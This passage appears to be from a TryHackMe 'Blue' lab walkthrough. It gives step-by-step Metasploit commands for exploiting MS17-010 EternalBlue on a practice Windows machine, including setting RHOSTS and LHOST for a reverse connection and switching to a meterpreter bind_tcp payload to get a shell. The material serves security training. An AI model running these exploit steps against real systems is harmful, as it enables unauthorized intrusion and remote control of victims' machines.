         In general, payloads help us establish exploits In particular, this payload creates a remote-desktop in the target machine using a call-back from Windows to Metasploit.
    
        Specifying the payload is VERY important, and it could be why your exploit may be repeatedly failing. I will discuss this further soon.

    * Your next move is to type `run` to begin the scanner.

        - Now we have proof that Blue is vulnerable to MS17-10: Remote Code Execution!![Proof!](Task_2_Image_2.jpg)

    * Now, let’s figure out how to run our exploit now (remember that these are the modules whose names start with `exploit`).

        > As *m0rn1ngstr* explains, an exploit is: “an exploit module executes a sequence of commands to target a specific vulnerability found in a system or application. An exploit module takes advantage of a vulnerability to provide access to the target system. Exploit modules include buffer overflow, code injection, and web application exploits.”

        - Type `use 2` or `use exploit/windows/smb/ms17_010_eternalblue` into your Metasploit shell.

        - Then, type `show options` (or just `options`) to pull up the settings for the exploit. Here, we will need to set `RHOSTS` to our target IP like we did before.

            - To do this, type: `set RHOSTS [TARGET_IP]`

        - In an effort to avoid running into issues with running the exploit, we will also set the eternalblue module’s `LHOST` option.
        
            > LHOST refers to the IP of your machine, which will be used to create a reverse connection to your machine after the exploit runs successfully.

        - To set our `LHOST` option, it’s the same setup as setting the `RHOST` option, but instead of using the target IP (the IP of the web-based VM we are running from the TryHackMe site), we will be using the private IP seen in the OpenVPN Connect profile screen.

            - You can see this after scrolling down in the OpenVPN window that shows your active connection, as squared in black in the following image.![OpenVpn](Task_2_Image_3.jpg)

                - So, the final command to type into the Metasploit shell is set `LHOST [Your_Private_IP]`.

    * FINALLY, to complete this task and run the exploit, type `run` or `exploit`.

        - If this is successful, you should appear in the windows shell now! CONGRATULATIONS!

        > If the exploit fails, you should first attempt to troubleshoot by running the exploit again. If that doesn't work, you should restart your Blue machine on the TryHackMe site. Don't worry, I had this issue plenty of times. If you find there are repeated failures despite following all the above directions correctly (like myself for 3 days legitimately), follow the steps below.
        
        * We are going to try and change the `payload` again. First, in the Metasploit shell, type `show payloads`.

            * You should see a list of 56 payloads. However, the one we want to try is #15, named `windows/x64/meterpreter/bind_tcp`.
            
            * Now, configure the payload to the meterpreter tcp bind: `set payload windows/x64/meterpreter/bind_tcp`

            * Now, run the exploit again as shown above. Hopefully, by this time you will finally see that beautiful `WIN` sign and see a meterpreter shell prompt!
